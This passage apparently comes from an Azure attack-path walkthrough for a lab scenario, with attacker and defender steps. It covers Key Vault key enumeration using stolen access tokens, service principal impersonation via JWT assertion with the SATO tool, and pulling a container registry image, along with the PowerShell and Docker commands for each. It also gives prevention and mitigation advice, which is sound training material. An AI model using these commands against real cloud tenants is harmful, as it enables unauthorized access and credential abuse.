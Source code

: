 **Step 6: Key Vault Enumeration and Exploitation**

- **Attacker:** Identifies a hidden key associated with the SpAutomateCert certificate in the Key Vault.
    - **Why:** The hidden key can be used to impersonate a service principal.
    - **Commands:**
        
        PowerShell
        
        ```
        Connect-AzAccount -AccessToken $token -KeyVaultAccessToken $keyvaulttoken -AccountId Samantha.Shade@megabigtech.com
        Get-AzKeyVaultKey -VaultName CryptoOps
        ```
        
- **Defender:**
    - **Prevention:** Securely configure Key Vault, restrict access to keys and certificates, and monitor Key Vault activity.
    - **Mitigation:** Use non-exportable keys to prevent the private key from being extracted.

**Step 7: Service Principal Impersonation**

- **Attacker:** Uses SATO to impersonate the SpAutomate service principal via JWT assertion.
    - **Why:** Gains access to resources and permissions assigned to the service principal.
    - **Commands:**
        
        PowerShell
        
        ```
        Invoke-Sato -GrantType "jwt_assertion_sign" -TenantID "2590ccef-687d-493b-ae8d-441cbab63a72" -AppID "4b00c269-23b8-47e3-826e-a76d3c602449" -KeyVaultName "CryptoOps" -CertName "SpAutomateCert" -KeyToken $keyvaulttoken -PredefinedScope MaARM -Decode
        ```
        
- **Defender:**
    - **Prevention:** Securely manage service principals, limit their permissions, and monitor their activity.
    - **Mitigation:** Implement strong authentication mechanisms for service principals and avoid using easily guessable application IDs.

**Step 8: Azure Container Registry Abuse**

- **Attacker:** Connects to the CryptoOps container registry and pulls the fetcherapp image.
    - **Why:** Container images may contain sensitive data or configurations.
    - **Commands:**
        
        Bash
        
        ```
        Connect-AzContainerRegistry -Name CryptoOps
        Get-AzContainerRegistryRepository -RegistryName CryptoOps
        docker pull cryptoops.azurecr.io/fetcherapp:latest
        ```
        
- **Defender:**
    - **Prevention:** Securely configure container registries, restrict access to images, and scan images for vulnerabilities.
    - **Mitigation:** Implement image signing and verification to ensure image integrity.
